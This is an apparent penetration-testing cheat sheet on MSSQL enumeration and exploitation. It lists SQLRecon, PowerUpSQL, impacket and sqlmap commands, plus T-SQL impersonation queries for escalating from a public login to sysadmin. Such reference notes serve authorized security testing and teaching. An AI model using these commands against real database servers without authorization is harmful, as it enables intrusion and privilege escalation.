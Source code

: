 # __Database enumeration and exploitation__
>Author: Pieter Miske
---
### __MSSQL database:__
While enumerating keep the following things in mind: OS commands from inside the MSSQL Server runs in the context of the MSSQL Server service account; MSSQL Server service accounts have sysadmin privileges by default; Organizations usually utilize a single domain account to run many MSSQL Servers\. 

##### _Run SQL query methods:_
- \([SQLRecon](https://github.com/skahwah/SQLRecon)\): `SQLRecon.exe -a Windows -s <MSSQL server name> -d master -m query -o "<query>"`
- \([PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)\): `Get-SQLQuery -Verbose -Instance "<database instance name>" (-Username <(domain)\<username> -Password <password>) -Q “<normal MSSQL query>"`
- \([impacket](https://github.com/SecureAuthCorp/impacket)\): `impacket-mssqlclient.py (<DOMAIN>/)<USERNAME>:<PASSWORD>@<IP> (-windows-auth)`
- Can be used in the case MSSQL server can be reached via a SQL injection vulnerability \([SQLmap](https://github.com/sqlmapproject/sqlmap)\): `sqlmap -r <web.req> --sql-shell`

##### _Database instance and access enumeration:_
- List as what user you are logged in, mapped as and what roles exist \(SQLRecon\): `SQLRecon.exe -a Windows -s <MSSQL server name> -d master -m whoami`
- List running SQL servers:
	- Identify domain joined SQL servers \(PowerUpSQL\): `Get-SQLInstanceDomain -Verbose`
	- Identify local running SQL servers \(PowerUpSQL\): `Get-SQLInstanceLocal -Verbose`
- Gather more information about the found instance \(PowerUpSQL\): `Get-SQLServerInfo -Instance "<database instance name>"`

##### _Escalate from public user to sysadmin:_
- Audit the MSSQL database instance for vulnerabilities \([PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)\): `Invoke-SQLAudit -Instance <database instance name>`
- Scan for privilege escalation vulnerabilities and exploit them automatically \(if successful the current domain user will be added to the MSSQL Login users with sysadmin privileges and can only be deleted if the domain user is logged off\) \(PowerUpSQL\): `Invoke-SQLEscalatePriv -Verbose -Instance <database instance name>`
- Check for impersonate privilege misconfiguration \(if a user account with 'public' access to the MSSQL database has the 'Impersonate' privilege over a account with higer privs, this can be abused\):
	- \([SQLRecon](https://github.com/skahwah/SQLRecon)\):
		- Enumerate any user accounts that can be impersonated: `SQLRecon.exe -a Windows -s <MSSQL server name> -d master -m impersonate`
		- Enumerate privs user that can be impersonated: `SQLRecon.exe -a Windows -s <MSSQL server name> -d master -m iwhoami -i <user to impersonate>`
		- Execute an arbitrary SQL query as an impersonated user: `SQLRecon.exe -a Windows -s <MSSQL server name> -d master -m iquery -i <user to impersonate> -o "<query>"`
	- SQL query:
		- 1\. Check which logins \(not user’s\) allow for impersonation \(SQL query\): `SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'`
		- 2\. Impersonation:
			- Database login \(SQL query\): `EXECUTE AS LOGIN = '<login name>';`
			- Database user \(SQL query\): `use msdb; EXECUTE AS USER = 'dbo';`
